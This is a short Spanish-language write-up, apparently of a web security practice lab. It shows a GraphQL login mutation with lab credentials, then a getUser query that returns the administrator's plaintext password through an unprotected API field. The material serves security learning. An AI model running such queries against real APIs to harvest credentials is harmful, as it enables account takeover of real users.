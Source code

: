 
request
```json
    mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }

{"input":{
	"username":"wiener",
	"password":"peter"
	}
}
```

response
``` json
{
  "data": {
    "login": {
      "token": "PKlPc6qrV9uMQyAcgwLqmGLfrujxFaEo",
      "success": true
    }
  }
}
```

Buscamos y vemos que hay una query que nos permite obtener información del administrador:

```json
query{
	getUser(id: 1) {
			id
			username
			password
	}
}
```

``` json
{"query":"query{\n\tgetUser(id: 1) {\r\n\t\t\tid\n\t\t\tusername\n\t\t\tpassword\r\n\t}\n}"}
```

respuesta:
```json
{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator",
      "password": "psqgud000ux6d78ttmbq"
    }
  }
}
```